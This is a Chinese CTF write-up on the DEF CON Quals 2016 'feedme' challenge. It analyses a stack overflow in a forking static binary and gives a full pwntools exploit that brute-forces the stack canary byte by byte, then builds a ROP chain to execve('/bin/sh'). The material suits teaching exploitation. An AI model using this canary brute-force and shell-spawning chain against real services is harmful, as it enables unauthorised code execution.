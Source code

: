 ```yaml
---
title: nightmare 2.11.defcon quals2016 feedme-wp
date: 2023-08-15 20:39:38
tags:
- CTF
- pwn
- dcquals2016
- nightmare
- stack 
- canary  
- ret2syscall
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/07-bof_static/dcquals16_feedme)  

## 文件分析

```python
$ checksec feedme
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```sh
$ ./feedme
FEED ME!
!0000000000000000000000000000000000000000000000000000000000000000000
ATE 30303030303030303030303030303030...
*** stack smashing detected ***: ./feedme terminated
Child exit.
FEED ME!
...
```

## 代码分析

首先`SHIFT+F5`利用签名文件恢复符号表，具体教程见[符号表恢复](https://antel0p3.github.io/2023/08/14/symbol-restore/) 
  ![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/15/dcquals16-feedme/0x1.png?raw=true)

1. 可以看到循环fork创建子线程，子线程执行`sub_8049036` 函数

   ![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/15/dcquals16-feedme/0x2.png?raw=true)

2. `sub_8049036` 函数中`I`首先读取一个byte

3. `II`读取这个byte值个数个byte到v3中，明显此处存在栈溢出

4. `III`处明显存在canary栈溢出检查

## 攻击方法

该文件是静态链接的，但是没有找到库函数`system`，并且开启了栈不可执行 
`ALT+T` 也没有找到`syscall` ，但是存在有`int 80h` 可以触发系统调用  `sys_execve`

参数：

```assembly
eax -> 0xb	# sys_execve调用号
ebx -> '/bin/sh'指针
ecx -> 0
edx -> 0
```

**fork出的子线程canary是不变的**，由此我们可以对canary进行爆破，然后溢出构造pop链

爆破方法：从低（最低位一定是\x00，不用爆破）到高一个一个字节遍历覆盖，如果没有发现输出`stack smashing`，则说明当前字节正确，固定当前已获取的字节，接着下个字节爆破

## exp

```python
from pwn import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./feedme")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    b * 0x08049036
    b * 0x080490C9
    set follow-fork-mode child
    
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

canary = b'\x00'	# 最低位

for i in range(1, 4):	# 剩下三位爆破
    for j in range(0,0x100):	# 0x00-0xff
        sa(b'ME!', p8(32+i+1)+b'h'*32+ canary + p8(j))	# size + padding + canary
        res = ru(b'exit.')
        if b'smashing' not in res:	# 正确
            canary = canary + p8(j)	# 更新canary
            break					# 去下一个字节

eax_ret = 0x080bb496
ebx_ret = 0x080481c9
edx_ret = 0x0806f34a
ecx_ebx_ret = 0x0806f371
mov_eax2pedx = 0x0809a7ed
int_80 = 0x08049761
dest = 0x080EBF40

payload = b'h'*32 + canary + p32(0)* 3	# padding + canary + padding2ret
payload += p32(edx_ret)+ p32(dest)	# edx = str_ptr
payload += p32(eax_ret) + b'/bin' + p32(mov_eax2pedx) # eax = b'/bin'; mov dword ptr [edx], eax
payload += p32(edx_ret)+ p32(dest+4)	# edx = str_ptr+4
payload += p32(eax_ret) + b'/sh\x00' + p32(mov_eax2pedx) # eax = b'/sh\x00'; mov dword ptr [edx], eax
payload += p32(eax_ret) + p32(0xb)	# eax = 0xb
payload += p32(edx_ret) + p32(0)	# edx = 0

payload += p32(ecx_ebx_ret) + p32(0) + p32(dest)	# ecx = 0; ebx = str_ptr
payload += p32(int_80)

sa(b'ME!', p8(len(payload))+payload)	# size + payload


pi()
pause()
```


---